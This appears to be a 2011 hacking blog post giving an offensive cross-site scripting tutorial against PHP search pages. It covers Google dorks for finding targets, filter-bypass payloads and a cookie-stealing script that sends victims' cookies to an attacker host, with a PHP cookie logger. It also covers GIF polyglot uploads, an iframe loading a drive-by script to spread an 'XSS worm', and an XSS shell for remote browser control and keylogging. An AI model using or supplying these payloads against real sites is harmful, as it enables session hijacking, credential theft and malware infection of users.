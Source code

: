 ```yaml
---
id: 1795
title: 'History of hack: Cross Site Scripting (XSS)'
date: 2011-12-07T08:30:46+01:00
author: ax
excerpt: |
  <p>History di esempio di un attacco "Cross Site Scripting (XSS)" by Razor4x</p>
layout: post
guid: http://linuax.altervista.org/blog/?p=1795
permalink: /2011/12/07/history-of-hack-cross-site-scripting-xss/
categories:
  - Hacking
  - History
  - xss
tags:
  - cross site scripting
  - history
  - xss
---
```

## Cross Site Scrpting History (XSS):

Searching for vulnerable sites dorking with google...

<pre>inurl:"*.php?search="</pre>

Open one of this and test if is vulnerable...

<pre>cerca.php?search=&lt;script&gt;alert("XSS found");&lt;/script&gt;</pre>

This little code will make, if the site doesn't put some filters in the search GET variable, a pop-up ... If it doesn't ? Let's check out if this is a syntax mistake or a filter like htmlspecialchars block us  
Open html sources in your browser windows and press ctrl+u. Find a pattern like "XSS found" in this case for discover immediatly the offset of the alert. If in our exploit chars like "<"."(" and other special chars are been replaced such as > that's means the  variable are filtered by htmlspecialchars function provided by PHP.

<pre>&lt;!-- extract of html source code --&gt;
 &lt;input name="pad" value="&lt;script&gt;alert("XSS Found");&lt;/script&gt;"&gt;
&lt;!-- end of extract of html source code --&gt;</pre>

This is an example of syntax mistake. For bypass this just use this syntax.

<pre>cerca.php?search="&gt;&lt;script&gt;alert("XSS found");&lt;/script&gt;</pre>

Here we are our alert :)  
In a certain site the "" are disable. What I can do now? Just type this for an example:

<pre>cerca.php?search=&lt;script&gt;alert(String.fromCharCode(88, 83, 83, 32, 70, 111, 117, 110, 100))&lt;/script&gt;</pre>

And pop-up come's out!  
Set up a cookie logger.

<pre>cerca.php?search=&lt;script&gt;window.location="http://attackersite.com/cookiestealer.php?cookies="+document.cookie;&lt;/script&gt;</pre>

Now we need to give this peace of script to our victim. If he/she will run this exploit on our host we'll have ALL the cookies that the victim has on that site that we exploit. For the source code of the cookie logger look at the EOF. Source of Cookie stealer:

<pre> &lt;?php
    $contenuto="cookie=".$_GET['cookies'];
    $fp=fopen('./cookies.txt', 'a');
    fwrite($fp, $contenuto."\n");
    fclose($fp);
?&gt;</pre>

Create a file called cookies.txt on your host and than for stealing cookie just use the URL:

http://yousite.com/cookiesteal.php?cookies=

### ~ Other stuff for XSSing...

Create a GIF file and put open it with a text editor. Now delete all the content and write this:

<pre>GIF89a&lt;script&gt;alert("XSS Upload :]");</pre>

Upload on your host and go thourght it and... the alert come's out (may don't work with certain browser, try it all..). This will work with JPG,BMP and all other formats with the condition to put at the start of the file the identification of the image type (JPG is JFIF for example just googling...).  
XSS worm is other good stuff that can be performed with XSS by using Java Drive By.

<pre>cerca.php?search=&lt;iframe src="http://yourwebsite.com/javadrivebylink.js"&gt;&lt;/iframe&gt;</pre>

Spread around to infect the other PCs. XSS Tunelling is another good tecniques that can be performed by an XSS vulnerability by give to the slave the following script

<pre>cerca.php?search=&lt;script src="http://serversite.com/xsshell.asp"&gt;&lt;/script&gt;</pre>

But first you need to configure your server-side xss shell and start the xss tunnel. With this you can control the browser victim, send commands, setup a javascript keylogger and a lot of other stuff. It will become a sort of XSS Botnet. Two words about its operation. In this tecniques there are three components: the attacker, the victim and the server. The server can be provided by a free hosting but the thing that is important is that this site must be an IIS 5 or higer because the xss shell is written in asp. So when you have prepared the xss and gave to your victim, if is persistent or not is not much important, the xss shell in the victim's browser will established a connection with the server and wait for commands that it will execute. The commands are provided by us throught XSS Tunnel that send at the server that send at the victim. All this inside in a XSS channel built when victim run our malicious code.

\# End (Razor4x)